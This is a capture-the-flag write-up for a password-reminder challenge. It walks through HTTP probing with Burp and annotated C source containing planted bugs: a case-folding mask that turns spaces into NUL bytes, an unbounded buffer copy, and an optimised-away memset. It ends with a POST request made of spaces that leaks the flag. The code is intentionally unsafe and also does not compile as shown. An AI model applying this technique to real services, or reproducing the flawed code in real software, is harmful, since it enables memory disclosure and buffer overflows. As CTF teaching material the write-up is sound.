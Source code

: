 # WriteUP for the "GiveMeThaPassword" Challenge  

## Recon
At first we receive a link to the challenge. 

Inspect it and we receive a blank page. Umm smells like we are going to use burp.

Use Burp proxy to inspect the GET request.

When we try to make the GET we receive a 400 Bad Request.

Since we don't have any more info, let's change to POST Request.

We do the POST and receive this:

```tcp
HTTP/1.1 200 OK
Content-Length: 41
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:46:26 GMT
Connection: close

Passwords must be at least 8 characters! 
```

Nice! :)

Sending a password with 8 characters:

```tcp
HTTP/1.1 200 OK
Content-Length: 64
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:48:49 GMT
Connection: close

Looks like you forgot your password! Your password is: AAAAAAAA
```

OK, now we know how the requets are working, let's check the code.

We can summarize the code in this lines

```c
void ctf(char *password, int print) {
	char buffer[256];
	int pwdlen = strlen(password);

	if (strlen(password) < 8) {
		printf("Passwords must be at least 8 characters!\n");
		return;
	}
	// passwords are case-insensitive
	//uppercase
	while (password) {
		//WARNING 1!
		*password &= ~0x20; //*password = *password & ~0x20; to uppercase
		password++;
	}
	//cpy
	while (*password) {
    //WARNING 2!
		*buffer = *password;
		buffer++;
		password++;
	}
	//email
	if (print){
		printf("Looks like you forgot your password! Your password is: ");
		for (int i = 0; i < n; i++) {
			printf("%c", password[i]);
		}
		printf("\n");
	}
	// Erase sensitive information!!
  	//WARNING 3!
	memset(buffer, ' ', 256);
}

int main(int argc, char *argv[]) {
	while (--argc) {
		char buffer[256] = {0};
		strcpy(buffer, argv[argc]);
		ctf(&buffer[0], argc == 1);
	}

	return 0;
}
```
As you can see in the code, I added 3 warnings, let's check it to see how we can retrive the password.

## Warning 1
```c
*password &= ~0x20;
```
This part makes the AND operation in the sixth bit so:

If we have an 'a' and we want to change to 'A' we do this:

```
a 		=	0110 0001
~0x20	=	1101 1111
    	 	---------
A 		=	0100 0001    
```
This type of bit manipulation is also pretty dangerous, mostly because of we can send NULL 
signals use a SPACE character:

```
' '		=	0010 0000
~0x20	=	1101 1111
    	 	---------
NULL	=	0000 0000    
```
Note for the future: "Send whitespaces, maybe i'll find something"

## Warning 2
```c
while (*password) {
*buffer = *password;
		buffer++;
		password++;
	}
```
This is another example of NOT to copy a variable, with this type of code I can write outside
the buffer (buffer overflow) and access other parts of the memory or even manipulate
the flow of the program; sending NULL signal for example, because the while will never
be true.

## Warning 3
```c
memset(buffer, ' ', 256);
```
This function is being optimized by the compiler, and it's not running. ¯\_(ツ)_/¯


## Exploit
With everything that we learned before we can clearly send this NULL signals and watch the
behaviour of the app.

```tcp
POST /password/remind HTTP/1.1
Host: xxx.es
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

                                                      
```   
Response:                                                
```tcp
HTTP/1.1 200 OK
Content-Length: 110
Content-Type: application/octet-stream
Date: Sun, 27 Dec 2020 19:51:19 GMT
Connection: close

Looks like you forgot your password! Your password is: FLAG[INSOVIETRUSSIAFLAGCAPTURESU]
``` 

That's all folks!